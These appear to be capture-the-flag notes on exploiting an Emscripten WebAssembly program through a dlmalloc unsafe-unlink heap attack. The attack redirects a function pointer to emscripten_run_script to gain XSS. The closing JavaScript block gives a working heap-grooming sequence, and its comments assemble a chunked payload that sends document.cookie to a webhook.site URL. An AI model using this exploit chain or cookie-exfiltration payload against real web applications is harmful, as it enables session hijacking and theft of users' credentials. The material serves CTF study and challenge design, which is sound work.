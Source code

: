 # Linking
When compiling with `-g`, it includes the files used to link
```
/emsdk/emscripten/system/lib/libc/emscripten_memcpy.c
/emsdk/emscripten/system/lib/libc/emscripten_memset.c
/emsdk/emscripten/system/lib/libc/musl/src/errno/__errno_location.c
main.c
/emsdk/emscripten/system/lib/libc/musl/src/stdio/ofl.c
/emsdk/emscripten/system/lib/sbrk.c
/emsdk/emscripten/system/lib/libc/musl/src/stdio/fflush.c
/emsdk/emscripten/system/lib/libc/emscripten_get_heap_size.c
/emsdk/emscripten/system/lib/libc/musl/src/stdio/__lockfile.c
/emsdk/emscripten/system/lib/dlmalloc.c
/emsdk/emscripten/system/lib/pthread/library_pthread_stub.c
```

https://github.com/emscripten-core/emscripten/blob/main/system/lib/dlmalloc.c


# Wasm
Wasm opcodes contain their own stack and local variables (In this case wasm is using it like registers)
	No bufferoverflow to override return pointer
		I think redirecting codeflow is impossible (Unless you can jump to shellcode)

There is a stack pointer to manage local variables
	All local variables are still stores on the stack
	Seems like the wasm locals are used as registers
		Wasm locals != stack local variables


# Idea
Heap exploit -> emscripten_run_script -> xss with short payload -> modify memory -> full xss

# Exploit
Unsafe unlink to overwrite function pointer to emscripten_run_script
	Can send 10 byte payloads
		Use primitive to get xss

# Ideas to make it harder
Only allow 1-2 calls to greet()
	Can't slowly build gadgets to get full xss
	Forces you to somehow modify memory to get more calls


```js
var titles = 66144
var title_fp = 66112
var cnt = 66128
_add(0, "A".repeat(0x242))
_add(1, "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB")
_add(2, "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC")
_add(3, "")
_add(4, "EEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE")
_delete(2)
_edit(2, "R\x02\x01")
_delete(1)
_edit(0, '\x03'.repeat(0x241))
_greet(3)
console.log(prettyPrint(titles, 20))
console.log(prettyPrint(title_fp, 1))
// M=HEAP8;A=66128;M[A]=0
// M[A]=0;"location='//"
// M[A]=0;$_+"webhook.sit"
// M[A]=0;$_+"e/da7959eb-"
// M[A]=0;$_+"73ec-43cc-"
// M[A]=0;$_+"8495-439101"
// M[A]=0;$_+"f11175/'+do"
// M[A]=0;$_+"cument.cook"
// M[A]=0;eval($_+"ie")


printHeap()
```